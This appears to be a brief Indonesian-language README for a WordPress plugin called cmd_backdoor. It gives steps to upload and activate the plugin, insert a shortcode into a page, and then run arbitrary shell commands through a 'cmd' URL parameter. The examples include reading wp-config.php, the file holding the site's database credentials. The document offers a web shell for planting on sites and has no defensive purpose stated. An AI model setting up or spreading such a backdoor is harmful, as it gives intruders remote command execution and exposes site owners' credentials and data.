



**[1] upload cmd_backdoor.zip**

**[2] activate**  

**[3] masukkan shortcode ke page/post**  
`[cmd_backdoor]`  

**[4] akses page dengan get params cmd=**  
contoh http://example.com/?cmd=id  
contoh http://example.com/?cmd=ls -lah  
contoh http://example.com/?cmd=cat wp-config.php  

